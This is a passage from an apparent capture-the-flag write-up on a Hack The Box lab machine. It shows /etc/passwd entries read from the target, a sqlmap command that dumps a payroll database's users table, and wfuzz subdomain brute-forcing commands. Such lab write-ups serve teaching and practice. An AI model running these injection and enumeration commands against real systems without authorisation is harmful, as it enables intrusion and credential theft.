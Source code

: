 `root:x:0:0:root:/root:/bin/bash`

`michael:x:1001:1001::/home/michael:/bin/bash`

We performed the dump of some user tables in order to find credentials for one of these users but without success. We only found the credentials for the username `Enmigosss` but it is just a web application user and not a system user.

```bash
sqlmap -r request.txt --level 3 -dbms=mysql --batch -D payroll_db -T users --dump
```

![Untitled](pics/Untitled%205.png)

Using the **wfuzz** tool for subdomains fuzzing and was found `preprod-marketing.trick.htb` subdomain. With this we add the new subdomain to the file `/etc/hosts` for have access with web browser.

```bash
wfuzz -c -w ./wordlists/subdomains-top1million-110000.txt -H "Host: preprod-FUZZ.trick.htb" -u 10.10.11.166  --hw 475
```

![Untitled](pics/Untitled%206.png)

```bash
wfuzz -c -w ./wordlists/subdomains-top1million-110000.txt -H "Host: FUZZ-payroll.trick.htb" -u 10.10.11.166  --hw 475
```

![Untitled](pics/Untitled%207.png)
